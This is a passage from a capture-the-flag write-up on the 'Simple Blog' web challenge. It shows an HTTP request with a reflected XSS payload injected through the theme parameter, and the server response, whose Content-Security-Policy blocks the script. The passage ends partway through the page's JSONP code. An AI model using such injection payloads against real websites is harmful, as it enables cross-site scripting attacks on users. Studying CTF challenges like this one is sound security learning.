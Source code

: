 Theoretically, the following payload would give an XSS, but it is blocked by the CSP.

```
GET /?theme=dark.min.css"><script>alert()</script>< HTTP/1.1
Host: web.ctf.zer0pts.com:8003
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

HTTP/1.1 200 OK
Date: Sat, 06 Mar 2021 01:19:19 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.13
Vary: Accept-Encoding
Content-Length: 3065
Connection: close
Content-Type: text/html; charset=UTF-8

<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Simple Blog</title>
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'nonce-gGLouNdYKt4a0tKHwIOwMDc9Giw=' 'strict-dynamic'; require-trusted-types-for 'script'; trusted-types default">
    <link rel="stylesheet" href="/css/bootstrap-dark.min.css"><script>alert()</script><.min.css">
    <link rel="stylesheet" href="/css/style.css">
  </head>
  <body>
    <div class="container">
      <nav class="navbar navbar-expand-lg navbar-dark.min.css"><script>alert()</script>< bg-dark.min.css"><script>alert()</script><">
        <a class="navbar-brand" href="/">Simple Blog</a>
        <ul class="navbar-nav mr-auto">
          <li class="nav-item"><a class="nav-link" href="/report.php">Report Vulnerability</a></li>
        </ul>
        <ul class="navbar-nav">
          <li class="nav-item"><a class="nav-link" href="/?theme=dark">Toggle theme</a></li>
        </ul>
      </nav>
    </div>
    <main class="container" id="main">
      <div class="spinner-border" id="loading">
        <span class="sr-only">Loading...</span>
      </div>
    </main>
    <script src="/js/trustedtypes.build.js" nonce="gGLouNdYKt4a0tKHwIOwMDc9Giw=" data-csp="require-trusted-types-for 'script'; trusted-types default"></script>
    <script nonce="gGLouNdYKt4a0tKHwIOwMDc9Giw=">
    // JSONP
    const jsonp = (url, callback) => {
      const s = document.createElement('script');

      if (callback) {
        s.src = `${url}?callback=${callback}`;
      } else {
        s.src = url;
      }
```